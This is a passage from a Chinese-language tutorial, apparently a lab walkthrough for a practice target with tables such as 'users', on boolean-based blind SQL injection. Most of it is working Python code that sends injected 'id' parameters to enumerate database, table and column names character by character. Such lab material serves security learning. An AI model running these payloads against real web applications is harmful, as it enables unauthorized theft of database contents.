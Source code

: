 ```
    return length

if __name__ == "__main__":
    print("获取数据库长度")
    length = get_database_length()
    print("获取数据库名")
    length_name = get_database_length2(length)
    print("获取表长度")
    table_length = get_table_length()
```
&emsp;&emsp;跟获取数据库长度是一样的，注意payload就行，得出表长度为29，下一步表名，老样子，改payload
```
def get_table_name(table_length):
    global flag, url
    table_name = ""
    for i in range(1, table_length + 1):
        for j in range(33,122):
            payload = f"?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))={j}--+"
            response = requests.get(url + payload).text
            if flag in response:
                table_name += chr(j)
                print("表名为",table_name)
                break
    return table_name

if __name__ == "__main__":
    print("获取数据库长度")
    length = get_database_length()
    print("获取数据库名")
    length_name = get_database_length2(length)
    print("获取表长度")
    table_length = get_table_length()
    print("获取表名")
    table_name = get_table_name(table_length)
```
&emsp;&emsp;获取表名为emails,referers,uagents,users，<font color=blue>细节3:因为表名不止一个，中间的分隔符,我们可以把ASCII的范围调到33-127</font>如果觉得运行较慢的话，可以使用算法加工，例如二分法,或者把获取到的信息注释掉。下一步，爆列。
```
def get_column_length():
    global flag,url
    length = 1
    while(True):
        payload = f"?id=1'and length((select group_concat(column_name) from information_schema.columns where table_name='users'))={length}--+"
        response = requests.get(url + payload).text
        if flag not in response:
            length += 1
        else:
            print("success")
            break
    print("表长度为", length)
    return length

def get_column_name(column_length):
    global flag,url
    column_name = ""
    for i in range(1, column_length + 1):
        for j in range(33,122):
            payload = f"?id=1'and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),{i},1))={j}--+"
            response = requests.get(url + payload).text
            if flag in response:
                column_name += chr(j)
```